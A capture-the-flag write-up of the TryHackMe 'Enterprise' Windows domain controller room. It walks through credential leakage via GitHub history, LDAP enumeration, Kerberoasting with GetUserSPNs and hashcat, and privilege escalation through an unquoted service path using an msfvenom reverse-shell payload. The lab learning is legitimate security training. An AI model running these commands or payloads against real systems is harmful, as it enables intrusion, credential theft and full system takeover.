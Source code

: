# Enterprise

https://tryhackme.com/room/enterprise

A windows machine, which is an area I don't have much experience in (ironically, since my main PCs are all windows machines, for gaming etc). I tapped away at it for a few days, learning heaps, but ultimately required a hint to get a foothold. Just one though!

Enumeration revealed dozens of ports, as is typical for windows. Importantly, there were three websites, SMB, RDP and LDAP ports open, so these were enumerated seperately.

## HTTP

The websites had nothing on them, no hidden directories etc. Robots.txt under :80 contained nothing but a statement saying robots was silly on a domain controller server, which is accurate.

Another of the websites though, port 7990 had an atlassian login page. A glance at the source showed it was a cloned copy of an atlassian page, not functional. On the heading of the page though, was the message: "Reminder to all Enterprise-THM Employees: We are moving to Github!".

I did a search on github for "Enterprise-THM" and found a user/org with a single repo, containing nothing of note. The org had another user under "People", who went I went through had a powershell script available. The script ran against AD, but had a blank username and password. HOWEVER, under its history, the original files had those values still present! So I had a valid user and password for the machine, for a user named 'nik'.

## SMB

There were two folders I could reach under SMB, Docs and Users. Docs contained two office documents, a word doc and an excel sheet, both 'RSA' protected. I couldn't open them without a password, and trying to crack these with office2john got me nowhere.

Under Users, I had basically the Users directory on windows shared. As an anonymous user, I could access LAB-ADMIN, but nothing immediately stood out; most folders were empty. Under AppData though, I got the powershell command history, which revealed another username / password, being used as basic auth against some service. I couldn't see how to use these, and they might have been a red herring.

## LDAP

with the nik user, I could enumerate LDAP. I used several commands for this:

`ldapsearch -h 10.10.12.162 -b "DC=LAB,DC=ENTERPRISE,DC=THM" -x -D "nik" -w "<redacted>" | grep password` revealed there was a password in the system for a user

I used `ldapdomaindump 10.10.12.162 -u "LAB.ENTERPRISE.THM\nik" -p "<redacted>" -o results` to get a more browsable version, which identified a second username and password for the user `contractor-temp`, who was part of the `sensitive-users` group.

## MSTSC / RDP

Neither nik nor corporate-temp could log in over RDP, so moving on.

## SPN

This was the thing I required a tip for: I had never heard of SPNs before.

With these two users, nik and corporate-temp, I used the command `python2 ./GetUserSPNs.py LAB.ENTERPRISE.THM/contractor-temp:redacted` to list service principle names. It revealed one for a user name 'bitbucket'. Using the same command with `-request` got me a hash, which I then cracked with hashcat via `hashcat -m 13100 hash rockyou.txt` to get the bitbucket user's password.

## MSTSC / RDP again and/or SMB

The bitbucket user *could* connect over RDP, so I did and got the user flag. Notably, I could also use this user with SMBClient which gave me direct access to their User folder via the Users share, where the user flag was also retrievable.

## Privesc to root

For privesc, I started by looking for unquoted service paths, and immediately discovered a service where this was true and I had the right write access.

Initially I used PowerUp (https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) for this, which gave me a command to run to create a compromised binary, however the service would not start. I suspect because this would add a user, and that wasn't permitted. Instead I used the following msfvenom command: `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.173.117 LPORT=4444 -f exe-service -o Zero.exe`, which I dropped at `c:\Program Files (x86)\Zero Tier\Zero.exe`, then started the service via `Start-Service` and boom, I had a system shell :) THe final flag was in the Desktop folder of the Administrator user.
